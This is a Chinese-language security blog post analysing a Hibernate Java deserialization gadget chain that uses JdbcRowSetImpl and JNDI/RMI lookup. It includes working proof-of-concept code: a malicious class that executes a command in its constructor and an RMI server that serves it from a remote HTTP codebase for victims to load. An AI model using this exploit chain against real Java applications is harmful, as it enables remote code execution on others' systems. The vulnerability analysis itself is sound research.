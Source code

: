 ```yaml
---
layout: post  
title: "java反序列化漏洞-金蛇剑之hibernate(下)"  
date: 2018-1-26  
description: "java漏洞"  
tag: 漏洞分析
---
```

## 前言:
  金蛇剑:此剑金光灿烂形状奇特，剑身犹如是一条蛇盘曲而成。蛇尾构成剑尖蛇头藏与剑柄，握在手中甚是沉重，原是由黄金铸造而成。此剑形状甚是奇特，整柄剑就如是一条蛇盘曲而成，蛇尾勾成剑柄，蛇头则是剑尖，蛇舌伸出分叉，是以剑尖竟有两叉。
##  主角:
 hibernate
##  介绍:
  Hibernate是一个开放源代码的对象关系映射框架，它对JDBC进行了非常轻量级的对象封装，它将POJO与数据库表建立映射关系，是一个全自动的orm框架，hibernate可以自动生成SQL语句，自动执行，使得Java程序员可以随心所欲的使用对象编程思维来操纵数据库。曾几何时，java web程序员必备面试宝典,ssh(spring+struts2+hibernate)，当年笔者上javaweb课时，老师安利ssh,可见hibernate当年影响力多大。今天笔者跟着大家一起来学习分析hibernate的反序列化漏洞。
## 正文:
  接着上一篇写，其实这篇和上篇利用链区别不是很大，只是将TemplatesImpl用JdbcRowSetImpl替换，要想讲清楚这个，必须先要讲下JNDI,翻译过来为Java命令和目录接口。其中在2016年blackhat大会上，有个很详细ppt。[https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE-wp.pdf](https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE-wp.pdf)
  ![](http://pic.findbugs.top/18-2-7/5208562.jpg)
  其中rmi,dns，ldap等等都是  JNDI 具体的实现方式。这篇的主角JdbcRowSetImpl，就是实现了rmi。RMI全称是Remote Method Invocation－远程方法调用，Java RMI在JDK1.1中实现的，其威力就体现在它强大的开发分布式网络应用的能力上，是纯Java的网络分布式应用系统的核心解决方案之一。关于具体用法可以参考这篇文章，[http://blog.51cto.com/haolloyin/332426](http://blog.51cto.com/haolloyin/332426),[http://blog.51cto.com/6221123/1112619](http://blog.51cto.com/6221123/1112619)学习完这篇文章，我们明白，服务端开启一个rmi服务，客户端通过调用lookup函数，可以获取一个远程java对象。在调用lookup函数之后，客户端会调用服务端对于该对象的构造函数。那么一个攻击思路出来了，就是寻找不安全调用lookup去访问服务端恶意构造的一个rmi服务，并在服务端针对该服务绑定一个java类，在java类的构造函数中进行xxoo,[http://www.codersec.net/2017/09/Spring-%E6%A1%86%E6%9E%B6%E7%9A%84%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/](http://www.codersec.net/2017/09/Spring-%E6%A1%86%E6%9E%B6%E7%9A%84%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/)
  JdbcRowSetImpl是被封装在idk中的一个类，通过巧妙的调用该类，可以去访问一个恶意的rmi服务。换句话说，如果能控制JdbcRowSetImpl，所有的java应用必将带来灾难性的毁灭。JdbcRowSetImpl类中的connect函数中调用了lookup,通过反查，看到prepare，getDatabaseMetaData，setAutoCommit调了connect。其实这方面已经有很多分析文章，例如廖新喜师傅的[https://www.anquanke.com/post/id/87300](https://www.anquanke.com/post/id/87300),返回org.hibernate.property.BasicPropertyAccessor中BasicGetter类中get函数
  ![](http://pic.findbugs.top/18-2-7/448733.jpg)
  我们只需要将method改为prepare，getDatabaseMetaData，setAutoCommit三者任意一个，同时将target指定为JdbcRowSetImpl对象即可。构造一个恶意rim服务源码如下:
  
		public class EvilClass {
	    public EvilClass() throws Exception {
	        Runtime rt = Runtime.getRuntime();
	        String[] commands = {"open", "/Applications/Calculator.app/Contents/MacOS/Calculator"};
	        Process pc = rt.exec(commands);
	    }
		}
	
	public class EvilRmiServer {
    public static void main(String[] args){
        try {
            String serverAddress = "127.0.0.1";
            System.out.println("Start HTTP SERVER...");
            startHttpServer();
            System.out.println("Creating RMI Registry");
            registryRmi(serverAddress);
            //jndi的调用地址
            String jndiAddress = "rmi://"+serverAddress+":1099/Object";
            System.out.println(jndiAddress);
        } catch(Exception e) {
            e.printStackTrace();
        }

    }
    public static void startHttpServer() throws IOException {
        HttpServer httpServer = HttpServer.create(new InetSocketAddress(8088), 0);
        httpServer.createContext("/",new HttpFileHandler());
        httpServer.setExecutor(null);
        httpServer.start();
    }
    public static void registryRmi(String serverAddress) throws RemoteException, NamingException, AlreadyBoundException {
        Registry registry = LocateRegistry.createRegistry(1099);
        Reference reference = new javax.naming.Reference("EvilClass","EvilClass","http://"+serverAddress+":8088/");
        ReferenceWrapper referenceWrapper = new com.sun.jndi.rmi.registry.ReferenceWrapper(reference);
        registry.bind("Object", referenceWrapper);

    }
	}

这里有一个很关键的地方，运行服务，并且调用lookup之后会提示类无法加载,其实是package的问题，上面的类，都不要放在任何packeage里面，直接根目录。执行的过程同上一篇文章，但是要将类换成JdbcRowSetImpl，函数getDatabaseMetaData。
![](http://pic.findbugs.top/18-2-7/67587264.jpg)
